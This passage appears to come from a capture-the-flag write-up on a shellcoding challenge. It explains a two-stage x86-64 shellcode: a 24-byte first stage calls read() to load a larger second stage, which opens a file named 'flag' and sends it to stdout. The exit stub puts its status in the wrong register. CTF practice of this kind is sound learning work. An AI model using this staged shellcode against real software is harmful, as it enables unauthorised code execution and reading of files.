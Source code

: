 This means that only 24 bytes (0x18 = 24) worth of instructions will be read from standard input, this means that our previous shellcode won't work anymore since the target will only allow execute the first 24 bytes worth of information. In order to overcome this issue we create a `multi stage shellcode`, this type of shellcode consists in sending multiple shellcodes during the same connection; in this case we will use a two staged attack.

```asm
.intel_syntax noprefix
.global _start

_start:

push 0
push 0
pop rdi
lea rsi, [rip+9]
mov rdx, 250
pop rax

syscall
```

This code will allow us to use sys.read() in order to receive instruction from stdin, effectively bypassing the 24 bytes restriction imposed by the challenge.
sys.read() requires three arguments: a file descriptor, a buffer and a size value.
Being 0 the file descriptor for stdin and the value needed to invoke the syscall, we push two zeros on the stack.

We load the memory address which will point to the end of our shellcode in rsi and specify 250 expected bytes. We then invoke the kernel to execute sys.read().

```asm
.global _start
.intel_syntax noprefix

_start:

open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"
```
